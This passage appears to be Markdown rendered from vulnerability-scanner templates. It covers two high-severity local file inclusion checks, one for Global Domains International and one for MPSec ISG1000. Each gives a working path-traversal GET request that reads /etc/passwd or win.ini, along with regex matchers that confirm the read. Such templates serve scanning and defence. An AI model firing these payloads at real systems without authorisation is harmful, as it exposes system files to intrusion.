 - Global Domains International is vulnerable to local file inclusion.
- severity - high
- tags - globaldomains,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/kvmlm2/index.dhtml?fname=&language=../../../../../../../../../../etc/passwd%00.jpg&lname=&sponsor=gdi&template=11

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# MPSec ISG1000 - Local File Inclusion

## Description

- MPSec ISG1000 is vulnerable to local file inclusion.
- severity - high
- tags - mpsec,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/webui/?g=sys_dia_data_down&file_name=../../../../../../../../../../../../etc/passwd
- {{BaseURL}}/webui/?g=sys_dia_data_down&file_name=../../../../../../../../../../../../c:/windows/win.ini

### Matchers

**Type - regex**

- regex
  1. for 16-bit app support
  2. root:.\*:0:0:
- part - body
- condition - or
